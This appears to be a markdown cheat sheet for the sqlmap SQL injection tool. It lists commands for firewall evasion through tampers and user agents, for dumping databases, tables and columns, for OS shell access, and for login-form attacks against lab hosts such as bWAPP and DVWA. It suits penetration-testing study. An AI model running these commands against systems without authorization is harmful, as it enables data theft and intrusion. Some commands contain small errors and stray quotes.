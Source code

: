 # SQLmap

## Fuzzing Using SQLi

### Techniques

- B - boolean
- E - error based
- U - union
- S - stacked
- T - time based
- Q - inline queries

```bash
# specify parameter by 
$ sqlmap --technique="U"
```

### Crawl

Crawl is used to specify the depth of your scan

```bash
# Max Depth 4
D 1 : https://example.com/news
D 2 : https://example.com/news/latest
D 3 : https://example.com/news/latest/india
D 4 : https://example.com/news/latest/india/delhi
$ sqlmap --crawl 3
```

- batch this is used to avoid yes and no option in sqlmap and it will go for default

```bash
$ sqlmap --batch -u https://exaple.com
```

### Use Threads

```bash
$ sqlmap --threads 5
# default is 1 and max is 10
```

### Risk in sqlmap

```bash
# Default risk is 1 and it just checks for error based and union based injection
# So for agressive scan use risk to 3
$ sqlmap --risk 3 # perfect scan
```

### Level in sqlmap

if you fail to find sqli and exploit use level to also include user agent and cookie

```bash
$ sqlmap --level 5
```

### Verbosity

This can be further incremented to 6

```bash
$ sqlmap -v 6 # for detailed output
```

### Using headers to bypass checks

```bash
	$ sqlmap -u https://test.php.com/list.php?cat=1 -v 4 --headers="Referer:rahim.com"
```

### Using user agent to bypass firewall

```bash
$ sqlmap --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36"
```

### Use default mobile user agent to bypass security measures

```bash
$ sqlmap --mobile # will add in-built mobile security headers
```

## Bypass Firewall with encoded payloads

```bash
$ sqlmap --list-tampers
$ sqlmap --tamper="base64encode" / any other tamper method
```

## Exploit a url using SQLi

```bash
$ sqlmap -u https://test.php.com/list.php?cat=1 --current-user --current-db --hostname --batch
# Get Mysql user's username
# Get Database name
# Get hostname
```

### Dump all dbs details

```bash
$ sqlmap -u https://test.php.com/list.php?cat=1  --dbs --batch

```

### Dump all tables in specific database

```bash
$ sqlmap -u https://test.php.com/list.php?cat=1  -D db_name --tables
```

### Dump a table contents

```bash
$ sqlmap -u https://test.php.com/list.php?cat=1  -D db_name -T table_name --dump
```

### Get all columns in a specific table

```bash
	$ sqlmap -u https://test.php.com/list.php?cat=1  -D db_name -T table_name --columns
```

## Dump all data

```bash
$ sqlmap -u https://test.php.com/list.php?cat=1  -D db_name --dump-all
```

### Store output

```bash
$ sqlmap -u https://test.php.com/list.php?cat=1  --output-dir="/home/rahim/output"
```

### Bruteforce login page for sql injection

```bash
# Things required 1 : login url  2 : action value  3 : name parameter
$ sqlmap -u https://test.php.com/login.php --forms
# then it will show different forms available in that page by detecting form tags

```

### Further exploit login function

```bash
# Suppose post request is going to /userinfo.php and it sends values as --data="login=iron&password=man&form=submit" 
$ sqlmap -u http://192.168.1.102:81/bWAPP/userinfo.php --data="login=iron&password=man&form=submit" --method POST --dbs --batch
```

## Login Test Using SQL map

```bash
$ sqlmap -u “http://192.168.56.101/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --proxy=http://127.0.0.1:8080 --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”
```

- ‘-u’: the url taken from ZAP to review the req/res
- ‘--proxy’: the OWASP ZAP proxy
- ‘--cookie’: the cookie taken from ZAP

```bash
$ sqlmap -u http://192.168.1.102:81/bWAPP/sqli_3.php --data="login=iron&password=man&form=submit" --method POST --dbs --batch
```

### Add cookie

```bash
$ sqlmap --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb;
$ sqlmap --flush-session
# Flush session in this sqlmap will request the webserver for new session ids so hacker will be undetectable
$ sqlmap --comment # Highlights the comments made in database by the dbms manager
$ sqlmap --os-shell # if root user is running sqlmap server it will give you Shell prompt
$ sqlmap --os-cmd #  # if root user is running sqlmap server it will give you Shell prompt

```

### Resume SQLmap

```bash
$ command --resume
CTRL+C 
# to resume again latter
$ command --resume
```

### Use with burp request

```bash
$ sqlmap -r request.txt
```

